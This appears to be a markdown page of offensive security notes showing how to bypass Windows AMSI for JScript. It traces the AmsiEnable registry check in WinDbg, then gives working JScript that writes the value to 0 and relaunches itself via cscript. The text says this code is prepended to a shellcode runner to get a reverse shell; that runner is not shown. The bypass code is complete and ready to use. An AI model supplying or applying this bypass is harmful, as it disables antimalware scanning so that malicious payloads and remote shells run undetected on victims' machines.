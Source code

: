 ## Finding The Registry Key
We'll open WinDbg and navigate to  _File_ -> _Open Executable..._ and enter the full path of wscript.exe along with the full path of our testing Jscript file.
With wscript.exe started, we'll set a breakpoint on _jscript!JAmsi::JAmsiIsEnabledByRegistry_ with bu.

Entering the breakpoint and unassembling the function we note the following:

![](../../../Screenshots/js-bp.png)

The highlighted call to the Win32 _RegOpenKeyExW_ API opens the registry key, which is supplied as the second argument.
Due to the fastcall calling convention, the second argument is supplied in RDX and in this instance is equal to 7fff\`a3b134e0.

This reveals the _SOFTWARE\\Microsoft\\Windows Script\\Settings_ registry path.
A subsequent call to _RegQueryValueExW_ is used to query the registry value. i.e. AmsiEnable.

## The Bypass
To create the bypass we will use the following jscript:
```Javascript
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
sh.RegWrite(key, 0, "REG_DWORD");
```

Running this disables amsi and gives us our reverse shell, however, it only works if the AmsiEnable registry key is set before the wscript.exe process is started.

To improve our script, we will implement a check for the AmsiEnable registry key. If it exists, we'll execute the shellcode runner, but if it doesn't, we'll create it and execute the Jscript again.
The full code will be as follows:
```Javascript
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try{
	var AmsiEnable = sh.RegRead(key);
	if(AmsiEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD");
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1);
	sh.RegWrite(key, 1, "REG_DWORD");
	WScript.Quit(1);
}
```

We prepend this code to our shellcode runner to bypass amsi and get the reverse shell.

